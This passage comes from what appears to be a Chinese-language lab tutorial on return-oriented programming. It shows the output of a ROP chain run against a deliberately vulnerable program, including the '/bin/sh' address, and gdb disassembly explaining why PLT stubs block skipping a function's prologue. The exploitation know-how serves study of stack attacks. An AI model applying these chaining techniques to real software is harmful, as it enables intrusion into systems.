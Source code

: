 ```c{.line-numbers}
monica@xvm:~/csapp/chapter3$ python3 chain_witharg.py 
monica@xvm:~/csapp/chapter3$ ./stack_rop_dbg
0x5655628d, 0xf7db71f0
the '/bin/sh' string's address: 0xffffd383
address of buffer[]: 0xffffc868
frame pointer value: 0xffffc8d8
the value of baz()'s argument: 0xaabbccdd
the value of baz()'s argument: 0xaabbccdd
the value of baz()'s argument: 0xaabbccdd
the value of baz()'s argument: 0xaabbccdd
the value of baz()'s argument: 0xaabbccdd
the value of baz()'s argument: 0xaabbccdd
the value of baz()'s argument: 0xaabbccdd
the value of baz()'s argument: 0xaabbccdd
the value of baz()'s argument: 0xaabbccdd
the value of baz()'s argument: 0xaabbccdd
```

prologue 跳过方法的局限性：正如 Nergal 所指出的，上述方法存在局限性。如今，库函数是通过过程链接表（Procedure Linkage Table, PLT）调用的，也就是说，我们不能直接跳转到这些函数的入口点；我们需要先跳转到 PLT 中的一个入口，该入口点会执行连接到目标库函数的重要步骤，并最终跳转到库函数。这种机制在动态链接库中被广泛使用。**<font color="red">因此，如果我们想要跳过函数序言，就必须跳过 PLT 内部的所有中间设置指令</font>**。

我们使用 gdb 的 disassemble 命令来反汇编我们的 baz() 函数和一个 libc 标准库函数 printf()。我们可以清楚地看到其中的差异，我们找不到 printf() 函数的 prologue；反汇编出来的代码是与 PLT 相关的。因此我们需要使用其他技术将这些库函数链接在一起。

```c{.line-numbers}
Reading symbols from ./stack_rop_dbg...
(gdb) b 32
Breakpoint 1 at 0x12db: file stack_rop.c, line 32.
(gdb) r
Starting program: /home/monica/csapp/chapter3/stack_rop_dbg 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Breakpoint 1, main (argc=1, argv=0xffffd154) at stack_rop.c:32
32		printf("%p, %p\n", &baz, &exit);
(gdb) disassemble baz
Dump of assembler code for function baz:
   0x5655628d <+0>:	push   %ebp
   0x5655628e <+1>:	mov    %esp,%ebp
   0x56556290 <+3>:	push   %ebx
   0x56556291 <+4>:	sub    $0x4,%esp
   0x56556294 <+7>:	call   0x56556397 <__x86.get_pc_thunk.ax>
   0x56556299 <+12>:	add    $0x2d27,%eax
   0x5655629e <+17>:	sub    $0x8,%esp
   0x565562a1 <+20>:	push   0x8(%ebp)
   0x565562a4 <+23>:	lea    -0x1f50(%eax),%edx
   0x565562aa <+29>:	push   %edx
   0x565562ab <+30>:	mov    %eax,%ebx
   0x565562ad <+32>:	call   0x56556050 <printf@plt>
   0x565562b2 <+37>:	add    $0x10,%esp
   0x565562b5 <+40>:	nop
   0x565562b6 <+41>:	mov    -0x4(%ebp),%ebx
   0x565562b9 <+44>:	leave  
   0x565562ba <+45>:	ret    
End of assembler dump.
(gdb) disassemble printf
Dump of assembler code for function printf:
   0xf7dd4520 <+0>:	endbr32 
   0xf7dd4524 <+4>:	call   0xf7eeb4a1
   0xf7dd4529 <+9>:	add    $0x1cead7,%eax
   0xf7dd452e <+14>:	sub    $0xc,%esp
   0xf7dd4531 <+17>:	lea    0x14(%esp),%edx
   0xf7dd4535 <+21>:	push   $0x0
```